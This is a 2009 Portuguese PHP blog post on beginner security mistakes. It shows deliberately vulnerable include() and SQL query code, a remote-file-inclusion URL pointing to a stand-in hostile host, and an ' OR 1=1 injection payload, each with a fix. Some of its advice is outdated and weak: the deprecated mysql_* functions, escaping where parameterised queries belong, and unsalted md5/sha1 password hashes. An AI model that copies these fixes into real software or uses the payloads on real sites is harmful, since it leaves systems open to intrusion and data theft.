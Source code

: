 ```yaml
---
layout: post
status: publish
published: true
title: Principais falhas de segurança no PHP
author:
  display_name: Thiago Belem
  login: thiago.belem
  email: contato@thiagobelem.net
  url: http://thiagobelem.net/
author_login: thiago.belem
author_email: contato@thiagobelem.net
author_url: http://thiagobelem.net/
excerpt: Veja um pouco sobre cada uma das principais falhas de segurança criadas pelos
  iniciantes em PHP e que podem deixar um site de portas abertas para o mundo...
wordpress_id: 380
wordpress_url: http://blog.thiagobelem.net/?p=380
date: '2009-03-24 20:08:33 -0300'
date_gmt: '2009-03-24 23:08:33 -0300'
categories:
- PHP
- Artigos
- Segurança
tags: []
---
```

<p>Hoje vou falar sobre alguns erros comuns que são cometidos por programadores que estão começando agora. Resolvi fazer esse post pois vejo diariamente em fóruns de PHP pessoas com erros em scripts que possuem rombos enormes de segurança...</p>
<p>Não prometo deixar o seu sistema tão protegido quanto o <a title="Cadillac One" href="http://blog.thiagobelem.net/arquivos/2009/03/cadillac-one.jpg" target="_blank"><em>carro do Obama</em></a> mas, sem dúvida, você vai evitar que muita gente faça um estrago considerável no seu site.</p>
<p>Se você se identificar com algumas dessas medidas não saia correndo e se jogue da ponte... Faça os devidos ajustes e tudo ficará bem.</p>
<h4>Cuidados com a URL - Parte I</h4>
<p>Uma falha muito comum são aqueles sites que, tentando usar um sistema "legal", acabam abusando da sorte... São sites que incluem o conteúdo <span style="color: #999999;">(via <strong>include()</strong>)</span> baseado em uma variável do método $_GET. Exemplo:</p>
<p>[code language="php"]<br />
&lt;?php<br />
	// Verifica se a variável $_GET['pagina'] existe<br />
	if (isset($_GET['pagina'])) {<br />
		// Pega o valor da variável $_GET['pagina']<br />
		$arquivo = $_GET['pagina'];<br />
	} else {<br />
		// Se não existir variável, define um valor padrão<br />
		$arquivo = 'home.php';<br />
	}<br />
	include ($arquivo); // Inclui o arquivo<br />
?&gt;<br />
[/code]</p>
<p>E na URL do site ficaria:<br />
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=contato.php</span></span></p>
<p>Com isso o "invasor" pode, por exemplo, colocar um caminho de um script externo no lugar da variável:<br />
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=<span style="color: #ff0000;">http://sitedumal.net/deleta-banco.php</span></span></span></p>
<p>O seu site incluiria o arquivo normalmente e executaria tudo que existe dentro dele... O resto você já pode imaginar.</p>
<p>Evitar que isso aconteça é extremamente simples: é só criar um <em>array </em>contendo os nomes dos arquivos que poderão ser incluídos, dessa forma:</p>
<p>[code language="php" wrap="false"]<br />
&lt;?php<br />
	// Define uma lista com os arquivos que poderão ser chamados na URL<br />
	$permitidos = array('home.php', 'produtos.php', 'contato.php', 'empresa.php');</p>
<p>	// Verifica se a variável $_GET['pagina'] existe E se ela faz parte da lista de arquivos permitidos<br />
	if (isset($_GET['pagina']) AND (array_search($_GET['pagina'], $permitidos) !== false)) {<br />
		// Pega o valor da variável $_GET['pagina']<br />
		$arquivo = $_GET['pagina'];<br />
	} else {<br />
		// Se não existir variável $_GET ou ela não estiver na lista de permissões, define um valor padrão<br />
		$arquivo = 'home.php';<br />
	}<br />
	include ($arquivo); // Inclui o arquivo<br />
?&gt;<br />
[/code]</p>
<p>Viu? Adicionamos uma única linha e mais uma condição e está tudo resolvido. Com isso, se o atacante colocar lá o site dele na URL do seu site o PHP vai identificar que a variável <strong>$_GET['pagina']</strong> existe mas não está no <em>array </em><strong>$permitidos</strong>, então ele vai incluir o arquivo <strong>home.php</strong>.</p>
<h4>Cuidados com a URL - Parte II</h4>
<p>Outro erro comum é quando passamos parâmetros pela URL, por exemplo: o ID de uma categoria ou de um produto que, mais tarde, será buscado direto no banco para recolher algumas informações.</p>
<p>Geralmente o formato é o seguinte:<br />
<span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=12</span></span><br />
ou<br />
<span style="color: #008080;">http://www.meusite.com.br/?pagina=produtos.php&<span style="color: #0000ff;">id=12</span></span></p>
<p>Com isso <span style="color: #999999;">(se você não se preparar) </span>você deixa uma porta aberta para um ataque famoso chamado <strong>SQL-Injection</strong> que nada mais é do que a inserção de um código SQL em um campo de texto ou parâmetro da URL que será enviado diretamente para o banco. Vamos a um exemplo:</p>
<p>[code language="php" highlight="9"]<br />
&lt;?php<br />
// Formato da URL:<br />
//  http://www.meusite.com.br/produtos.php?id=12</p>
<p>// Salva o parâmetro da URL numa variável<br />
$produto = $_GET['id'];</p>
<p>// Monta a consulta MySQL<br />
$sql = &quot;SELECT * FROM `produtos` WHERE `id` = '&quot;.$produto.&quot;' LIMIT 1&quot;;</p>
<p>// Executa a query<br />
$query = mysql_query($sql);</p>
<p>// Salva o resultado (em formato de array) em uma variável<br />
$resultado = mysql_fetch_assoc($query);</p>
<p>?&gt;<br />
[/code]</p>
<p>A sua consulta ao MySQL ficaria da seguinte forma:</p>
<p>[code language="sql" light="true"]SELECT * FROM `produtos` WHERE `id` = '12' LIMIT 1[/code]</p>
<p>Até aqui tudo bem.. Seu script funciona, você tem o que precisa e tá tudo na mais perfeita harmonia... Mas chega um <span style="text-decoration: line-through;">desocupado</span> invasor e modifica a sua URL deixando da seguinte forma:</p>
<p><span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=<span style="color: #ff0000;">' OR 1=1 OR ''='</span> </span></span></p>
<p>Agora a sua query MySQL fica assim:</p>
<p>[code language="sql" light="true"]SELECT * FROM `produtos` WHERE `id` = '' OR 1=1 OR '' = '' LIMIT 1[/code]</p>
<p>Viu o que aconteceu? As possíveis condições para a consulta ser verdadeira são: id igual a vazio, 1 igual a 1 e vazio igual a vazio... Essa consulta vai ser dada como verdadeira e todos os produtos serão retornados. Sim meu amigo, é o fim do mundo.</p>
<p>Mas, como eu disse, não estou aqui para te assustar e sim para mostrar como resolver o pepino... Vamos a uma atitude simples mas que te salvará do Apocalipse... É só mudar uma linha:</p>
<p>[code language="php"]<br />
// Salva o parâmetro da URL numa variável obrigando-o a ser um valor inteiro<br />
$produto = (int)$_GET['id'];<br />
[/code]</p>
<p>Com isso eu digo que valor da variável <strong>$produto</strong> será igual ao <strong>valor inteiro</strong> <span style="color: #999999;">(<em>int </em>de integer)</span> da variável <strong>$_GET['id']</strong>. Problema resolvido meus caros!</p>
<p>Se o atacante colocar uma string como parâmetro <span style="color: #999999;">(todo SQL-Injection é uma string)</span> ela será convertida para inteiro... E o valor inteiro de uma string é igual a zero.  8-)</p>
<p>Peço <span style="color: #ff0000;"><strong>atenção dobrada</strong></span> para o entendimento desse último exemplo pois o <strong>SQL-Injection</strong> é o ataque mais comum dos últimos tempos.</p>
<p>Caso você passe parâmetros via URL que são strings e não números inteiros, você pode usar a função <strong>mysql_real_escape_string()</strong> da seguinte forma:</p>
<p>[code language="php"]<br />
$parametro = mysql_real_escape_string($_GET['nome']);<br />
[/code]</p>
<p>Com isso você evita o uso de aspas e caracteres protegidos do MySQL mantendo a sua <em>query </em>segura. Esse caso também vale para formulários dos quais os dados vão direto para consultas MySQL <span style="color: #999999;">(formulários de login, cadastro e comentários, por exemplo)</span>.</p>
<h4>Sobre Usuários e Senhas</h4>
<p>Outro ponto muito importante é não exibir, em momento algum, o nome de login <span style="color: #999999;">(usuário)</span> de algum usuário cadastrado no sistema. Lembre-se que para um usuário conseguir invadir a conta do outro ele precisa de duas coisas: usuário <span style="color: #999999;">(ou e-mail)</span> e a senha.. Se ele souber o usuário já tem 50% de sucesso.</p>
<p>Vale lembrar também que você <strong>não precisa</strong> deixar a senha do usuário na forma real quando salva-la no banco. É muito mais seguro salvar um <strong>md5() </strong>ou <strong>sha1()</strong> da senha no banco e quando for necessário fazer a validação do usuário você também gera o <strong>md5()</strong> ou <strong>sha1()</strong> da senha que ele digitou e compara com o que há no banco. Assim, se por ventura alguém conseguir invadir e pegar todos os registros do banco de usuários, o máximo que ele irá conseguir são o usuário/e-mail e uma senha criptografada.</p>
<p>Se quiser saber como funciona criptografica no PHP é só ver esse post:<br />&raquo;&nbsp;<a href="http://blog.thiagobelem.net/php/criptografia-no-php-usando-md5-sha1-e-base64/">Criptografia no PHP usando md5, sha1 e base64</a></p>
<p>Espero que tenham gostado. :)</p>
